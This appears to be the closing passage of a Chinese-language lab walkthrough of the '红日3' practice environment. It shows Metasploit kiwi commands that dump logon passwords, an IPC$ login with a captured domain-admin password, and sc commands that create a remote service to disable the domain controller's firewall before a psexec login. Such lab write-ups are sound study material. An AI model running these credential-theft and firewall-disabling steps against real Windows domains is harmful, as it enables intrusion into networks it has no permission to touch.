 ![22](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\22.png)

能够确定域控机器是10机器了，并且win2008存在域控用户的进程，关闭防火墙使用msf中的kiwi进行密码抓取

```
load kiwi
kiwi_cmd privilege::debug
kiwi_cmd sekurlsa::logonPasswords
```

kiwi模块默认加载x32，如果目标系统64位，需要我们把进程迁到64位里面

```
migrate 3624
```

![23](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\23.png)

能够抓取到域管用户的密码

![24](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\24.png)

直接使用msf登录失败

![25](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\25.png)

估计需要去关闭win2012的防火墙，在2008上与域控主机建立ipc连接，关闭防火墙

```shell
net use \\192.168.93.10\ipc$ zxcASDqw123!! /user:test\administrator
sc \\192.168.93.10 create unablefirewall binpath= "netsh advfirewall set allprofiles state off"   
sc \\192.168.93.10 start unablefirewall     
```

关闭防火墙就可以去利用smb/psexec建立连接了

![26](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\26.png)

成功建立连接，进入目标机器找flag,flag位于

```
C:\Users\Administrator\Documents
```

打印flag即可

![28](E:\笔记软件\笔记\渗透测试\靶机练习\红日3\28.png)

至此结束

### 小结：

不了解的地方主要是没有CS如何利用msf的模块对windows机器进行渗透，以及ipc建立连接，445端口可以有什么利用的点不熟悉
